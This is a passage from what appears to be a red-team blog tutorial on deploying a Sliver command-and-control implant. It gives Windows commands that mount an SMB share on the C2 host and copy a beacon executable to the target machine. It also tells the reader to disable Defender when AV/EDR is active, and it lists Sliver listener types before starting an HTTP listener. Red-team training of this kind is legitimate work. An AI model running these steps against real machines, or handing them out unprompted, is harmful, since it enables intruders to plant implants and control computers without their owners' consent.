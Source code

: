 **On Windows**

Connect:
```
net use \\<C2 ip>\kali /USER:anon anon
```

Copy the File:
```
copy \\<C2 ip>\kali\<beacon.exe> .
```
![Alt text](/assets/images/posts/c2/3.png){: .align-center}

![Alt text](/assets/images/posts/c2/4.png){: .align-center}


> Bypass in necessary if the AV/EDR are enable (So, for now just disable Defender)

> I'll write about evasion in future posts and How to use staged payloads in Sliver

## Listener

- http/https - for communication over the HTTP(S) protocol, pretty standard across any C2     
- mtls - communication using mutual-TLS, a protocol in which both the implant and the server present a certificate that the other must validate. If one certificate fails, the connection does not happen. 
- wg - communication using WireGuard, which essentially creates a lightweight VPN to communicate over. 
- dns -This is all UDP and its not recommended for beginners.


> Since our beacon was only configured to have an http callback, we can run http in our shell and then execute the beacon on the remote Windows computer.

```
sliver > http
```

![Alt text](/assets/images/posts/c2/5.png){: .align-center}
